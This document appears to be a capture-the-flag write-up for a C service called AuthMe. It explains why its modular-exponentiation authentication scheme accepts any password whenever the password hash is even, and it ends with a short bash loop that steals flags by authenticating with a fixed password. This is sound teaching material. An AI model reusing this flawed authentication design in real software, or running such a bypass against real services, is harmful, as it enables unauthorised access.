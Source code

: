 # AuthMe

## Description

The service implements a custom authentication protocol. To authenticate, the client
and the server establish a common random value, the first two bytes of the random
are sent by the server, and some bytes are sent by the client. Concatenated, they form
a common secret.

To authenticate the client sends the value of
pow(sha256(password), sha256(random)) by modulo pow(2, 64). The server compares
the expected value with obtained value and if they are equal the user is authenticated.

The service wrote in C language and has client and server parts.

## The vuln

The authentication algorithm is insecure because if sha256(password) is even, the
pow result is zero. So half of the flags could be stolen just by asking the client to
authenticate a user with a random password. Sounds simple, but it took more then
2 hours for the first team to exploit the service.


# Exploitation

The exploit is trivial

```
#!/bin/bash

hostname=${1:?Usage: ./spl.sh hostname}

for flagid in $(./client $hostname list); do
    ./client $hostname auth $flagid 1234
done
```
